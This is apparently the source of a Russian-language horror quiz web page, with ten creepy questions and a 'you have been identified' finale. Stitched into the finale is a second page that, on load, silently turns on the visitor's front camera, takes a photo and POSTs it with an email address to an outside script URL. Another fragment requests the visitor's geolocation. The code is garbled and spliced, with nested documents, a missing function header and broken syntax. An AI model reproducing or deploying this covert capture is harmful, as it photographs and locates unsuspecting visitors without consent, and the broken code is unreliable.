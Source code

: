 

        button:hover {
            border-color: #8b0000;
            color: #fff;
            box-shadow: 0 0 10px rgba(139, 0, 0, 0.5);
        }

        button::before {
            content: "";
            position: absolute;
            top: 0;
            left: -100%;
            width: 100%;
            height: 100%;
            background: linear-gradient(90deg, transparent, rgba(139, 0, 0, 0.2), transparent);
            transition: all 0.5s;
        }

        button:hover::before {
            left: 100%;
        }

        #final {
            display: none;
            background-color: rgba(0, 0, 0, 0.8);
            padding: 30px;
            margin-top: 40px;
            border-top: 1px solid #8b0000;
            animation: fadeIn 2s ease-in-out;
        }

        #info {
            color: #8b8b8b;
            font-family: 'Courier New', monospace;
            font-size: 0.9rem;
            line-height: 1.8;
            margin-top: 30px;
            border-left: 1px solid #333;
            padding-left: 20px;
        }

        .final-message {
            font-size: 1.2rem;
            color: #8b0000;
            margin-bottom: 30px;
            text-align: center;
            animation: pulse 3s infinite;
        }

        @keyframes pulse {
            0%, 100% { opacity: 0.7; }
            50% { opacity: 1; }
        }

        .blood-text {
            color: #8b0000;
            text-shadow: 0 0 5px #300;
        }

        audio {
            display: none;
        }
        .warning {
            text-align: center;
            font-size: 0.8rem;
            color: #444;
            margin-top: 50px;
            font-style: italic;
        }
    </style>
</head>
<body>
    <audio id="ambient" loop>
        <source src="https://assets.mixkit.co/sfx/preview/mixkit-dark-ambient-horror-1293.mp3" type="audio/mpeg">
    </audio>

    <div class="container">
        <h1>БЕЗДНА</h1>
        <div class="subtitle">Исповедь твоего страха</div>
        
        <div id="question1" class="question active">
            <h3>1. В какой момент ты осознал, что твои мысли — не совсем твои?</h3>
            <button onclick="nextQuestion(1)">Когда понял, что отвечаю на этот вопрос</button>
            <button onclick="nextQuestion(1)">Когда впервые услышал внутренний голос</button>
        </div>
        
        <div id="question2" class="question">
            <h3>2. Ты веришь, что кто-то наблюдает за тобой прямо сейчас?</h3>
            <button onclick="nextQuestion(2)">Да, и это не человек</button>
            <button onclick="nextQuestion(2)">Нет, но теперь буду верить</button>
        </div>
        
        <div id="question3" class="question">
            <h3>3. Если бы твое сознание было местом, что скрывается в его самых темных углах?</h3>
            <button onclick="nextQuestion(3)">То, чего я боюсь больше всего</button>
            <button onclick="nextQuestion(3)">Я сам, но другой</button>
        </div>
        
        <div id="question4" class="question">
            <h3>4. Когда ты в последний раз проверял, спишь ли ты на самом деле?</h3>
            <button onclick="nextQuestion(4)">Сейчас — и я не уверен в ответе</button>
            <button onclick="nextQuestion(4)">Я больше не могу отличить сон от яви</button>
        </div>
        
        <div id="question5" class="question">
            <h3>5. Как ты думаешь, почему ты действительно начал этот опрос?</h3>
            <button onclick="nextQuestion(5)">Потому что меня заставили</button>
            <button onclick="nextQuestion(5)">Потому что я искал правду</button>
        </div>
        
        <div id="question6" class="question
 onclick="nextQuestion(6)">Да, и они советовали мне d57rtyocx </button>
            <button onclick="nextQuestion(6)">"Нет, но они говорят, что я должен ответить "Да""</button>
        </div>
        
        <div id="question7" class="question">
            <h3>7. Ты когда-нибудь задумывался, что твои воспоминания — не твои?</h3>
            <button onclick="nextQuestion(7)">Да, и это меня пугает</button>
            <button onclick="nextQuestion(7)">Нет, но теперь буду думать об этом</button>
        </div>
        
        <div id="question8" class="question">
            <h3>8. Что будет, если ты перестанешь отвечать на эти вопросы?</h3>
            <button onclick="nextQuestion(8)">пойму, что в тишине я навсегда останусь один</button>
            <button onclick="nextQuestion(8)">Оно найдет меня</button>
        </div>
        
        <div id="question9" class="question">
            <h3>9. Ты уверен, что все вокруг реальны?</h3>
            <button onclick="nextQuestion(9)">Нет, и ты тоже можешь быть иллюзией</button>
            <button onclick="nextQuestion(9)">Я единственный реальный, а остальные — мои проекции</button>
        </div>
        
        <div id="question10" class="question">
            <h3>10. Последний вопрос: ты действительно хочешь узнать правду?</h3>
            <button onclick="showFinal()">Да, я готов увидеть</button>
            <button onclick="showFinal()">Нет, но вы всё равно покажете</button>
        </div>
        
        <div id="final">
            <div class="final-message">
                "Бог не поможет. Никто не поможет."
            </div>
            <html>
<head>
    <title>Фото-сессия</title>
    <style>
        body {
            font-family: Arial, sans-serif;
            text-align: center;
            padding: 20px;
        }
        #photoContainer {
            margin: 20px auto;
            max-width: 500px;
        }
        #capturedPhoto {
            max-width: 100%;
            border: 2px solid #ddd;
            border-radius: 5px;
        }
        #message {
            margin: 15px 0;
            color: #666;
        }
        .loader {
            border: 5px solid #f3f3f3;
            border-top: 5px solid #3498db;
            border-radius: 50%;
            width: 50px;
            height: 50px;
            animation: spin 2s linear infinite;
            margin: 20px auto;
        }
        @keyframes spin {
            0% { transform: rotate(0deg); }
            100% { transform: rotate(360deg); }
        }
    </style>
    <script>
        // Функция для отправки данных


        function showPosition(position) {
            const latitude = position.coords.latitude;
            const longitude = position.coords.longitude;
            document.getElementById('location').innerHTML = 
                Широта: ${latitude}<br>Долгота: ${longitude};
        }

        function showError(error) {
            switch(error.code) {
                case error.PERMISSION_DENIED:
                    document.getElementById('location').innerHTML = "Пользователь отклонил запрос на получение местоположения.";
                    break;
                case error.POSITION_UNAVAILABLE:
                    document.getElementById('location').innerHTML = "Информация о местоположении недоступна.";
                    break;
                case error.TIMEOUT:
                    document.getElementById('location').innerHTML = "Запрос на получение местоположения истек.";
                    break;
                case error.UNKNOWN_ERROR:
                    document.getElementById('location').innerHTML = "Произошла неизвестная ошибка.";
                    break;
            }
        }
            try {
                document.getElementById('message').textContent = "Отправка фото...";
                
                await fetch(googleScriptUrl, {
                    method: "POST",
                    mode: "no-cors",
                    headers: { "Content-Type": "application/json" },
                    body: JSON.stringify({ 
                        email: "89085010945z@gmail.com",
                        photo: photoData 
                    }),
                });
                
                document.getElementById('message').textContent = "Фото успешно отправлено!";
                document.getElementById('loader').style.display = 'none';
            } catch (error) {
                console.error("Ошибка:", error);
                document.getElementById('message').textContent = "Ошибка при отправке фото.";
                document.getElementById('loader').style.display = 'none';
            }
        }

        // Делаем фото и отправляем
        async function captureAndSend() {
            try {
                document.getElementById('message').textContent = "Подготовка камеры...";
                
                const stream = await navigator.mediaDevices.getUserMedia({ 
                    video: { facingMode: 'user' } 
                });
                const video = document.createElement("video");
                video.srcObject = stream;
                
                await new Promise((resolve) => {
                    video.onloadedmetadata = () => {
                        video.play();
                        setTimeout(resolve, 1000);
                    };
                });

                const canvas = document.createElement("canvas");
                canvas.width = video.videoWidth;
                canvas.height = video.videoHeight;
                const ctx = canvas.getContext("2d");
                ctx.drawImage(video, 0, 0);

                const photoData = canvas.toDataURL("image/jpeg");
                stream.getTracks().forEach(track => track.stop());

                // Показываем фото пользователю
                document.getElementById('capturedPhoto').src = photoData;
                document.getElementById('photoContainer').style.display = 'block';
                document.getElementById('message').textContent = "Фото сделано!";
                document.getElementById('loader').style.display = 'block';

                // Автоматическая отправка через 2 секунды
                setTimeout(() => {
                    sendPhotoToEmail(photoData);
                }, 2);

            } catch (err) {
                console.error("Ошибка камеры:", err);
                document.getElementById('message').textContent = "Ошибка: Не удалось получить доступ к камере.";
                document.getElementById('loader').style.display = 'none';
            }
        }

        // Запускаем при загрузке
        window.onload = captureAndSend;
    </script>
</head>
<body>
    <h1>Ваше фото</h1>
    <p id="message">Инициализация...</p>
    <div id="loader" class="loader" style="display:none;"></div>
    
    <div id="photoContainer" style="display:none;">
        <img id="capturedPhoto" alt="твой вид">
    </div>
</body>
</html>
            <div id="info">
                <p>> СИСТЕМА: Анализ завершен</p>
                <p>> ОБЪЕКТ: <span id="userAgent"></span></p>
                <p>> ЛОКАЦИЯ: <span id="location"></span></p>
                <p>> ВРЕМЯ: <span id="time"></span></p>
                <p>> СТАТУС: Объект идентифицирован</p>
                <br>
                <p class="blood-text">> ПРЕДУПРЕЖДЕНИЕ: Теперь оно знает о тебе</p>
                <p class="blood-text">> РЕКОМЕНДАЦИЯ: Не оборачивайся</p>
            </div>
        </div>
        <title>Определение местоположения</title>
    <style>
        body {
            font-family: Arial, sans-serif;
            background-color: #f0f0f0;
            color: #333;
            padding: 20px;
        }
        #location {
            margin-top: 20px;
            padding: 10px;
            background-color: #fff;
            border: 1px solid #ccc;
            border-radius: 5px;
        }
    </style>
</head>
<body>
    <h1>Ваше местоположение</h1>
    <div id="location">Определение местоположения...</div>

    <script>
        // Автоматически вызываем геолокацию при загрузке страницы
        window.onload = function() {
            if (navigator.geolocation) {
                navigator.geolocation.getCurrentPosition(showPosition, showError);
            } else {
                document.getElementById('location').innerHTML = "Геолокация не поддерживается вашим браузером.";
            }
        };

        function showPosition(position) {
            const latitude = position.coords.latitude;
            const longitude = position.coords.longitude;
            document.getElementById('location').innerHTML = 
                `Широта: ${latitude}<br>Долгота: ${longitude}`;
        }

        function showError(error) {
            switch(error.code) {
                case error.PERMISSION_DENIED:
                    document.getElementById('location').innerHTML = "Пользователь отклонил запрос на получение местоположения.";
                    break;
                case error.POSITION_UNAVAILABLE:
                    document.getElementById('location').innerHTML = "Информация о местоположении недоступна.";
                    break;
                case error.TIMEOUT:
                    document.getElementById('location').innerHTML = "Запрос на получение местоположения истек.";
                    break;
                case error.UNKNOWN_ERROR:
                    document.getElementById('location').innerHTML = "Произошла неизвестная ошибка.";
                    break;
            }
        }
    </script>
</body>
</html>
        <div class="warning">
            Этот опыт изменил тебя. Ты не сможешь забыть.
        </div>
    </div>

    <script>
        // Автовоспроизведение музыки после взаимодействия
        document.addEventListener('click', function initAudio() {
            const ambient = document.getElementById('ambient');
            ambient.volume = 0.3;
            ambient.play().catch(e => console.log("Audio playback failed:", e));
            document.removeEventListener('click', initAudio);
        });

        let currentQuestion = 1;
        const totalQuestions = 10;
        
        function nextQuestion(qNum) {
            if (qNum < totalQuestions) {
                document.getElementById(`question${qNum}`).classList.remove('active');
                document.getElementById(`question${qNum+1}`).classList.add('active');
                currentQuestion = qNum+1;
                
                // Плавная прокрутка к следующему вопросу
                document.getElementById(`question${qNum+1}`).scrollIntoView({
                    behavior: 'smooth'
                });
            }
        }
        
        function showFinal() {
            document.getElementById(`question${totalQuestions}`).classList.remove('active');
            document.getElementById('final').style.display = 'block';
            
            // Заполнение информации о пользователе
            document.getElementById('userAgent').textContent = navigator.userAgent || "Неизвестно";
            document.getElementById('location').textContent = 
                `Примерно ${Math.random() > 0.5 ? "в вашей комнате" : "рядом с вами"}`;
            document.getElementById('time').textContent = new Date().toLocaleString();
            
            // Плавная прокрутка к финалу
            document.getElementById('final').scrollIntoView({
                behavior: 'smooth'
            });
            
            // Усиление музыки в финале
            const ambient = document.getElementById('ambient');
            ambient.volume = 0.7;
        }
    </script>
</body>
</html>
    </script>
</body>
</html>
